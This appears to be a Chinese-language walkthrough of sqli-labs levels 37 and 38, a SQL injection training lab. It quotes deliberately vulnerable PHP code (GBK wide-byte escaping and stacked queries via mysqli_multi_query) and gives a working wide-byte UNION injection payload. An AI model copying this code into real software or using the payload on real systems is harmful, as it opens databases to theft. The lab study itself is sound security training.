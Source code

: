 ## less-37

```php
$uname = mysql_real_escape_string($uname1);
$passwd= mysql_real_escape_string($passwd1);

//echo "username after addslashes is :".$uname ."<br>";
//echo "Input password after addslashes is : ".$passwd;    

// connectivity 
mysql_query("SET NAMES gbk");
@$sql="SELECT username, password FROM users WHERE username='$uname' and password='$passwd' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
```

post方式而已，方法和上面一样

payload

```
%EF%BF%BD%27+union+select+user(),database()%23
```

## less-38 堆叠注入

```php
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
/* execute multi query */
if (mysqli_multi_query($con1, $sql))
{
    /* store first result set */
    if ($result = mysqli_store_result($con1))
    {
        if($row = mysqli_fetch_row($result))
        {
            echo '<font size = "5" color= "#00FF00">';
            printf("Your Username is : %s", $row[1]);
            echo "<br>";
            printf("Your Password is : %s", $row[2]);
            echo "<br>";
            echo "</font>";
        }
//            mysqli_free_result($result);
    }
        /* print divider */
    if (mysqli_more_results($con1))
    {
            //printf("-----------------\n");
    }
     //while (mysqli_next_result($con1));
}
else 
    {
        echo '<font size="5" color= "#FFFF00">';
        print_r(mysqli_error($con1));
        echo "</font>";  
    }
```

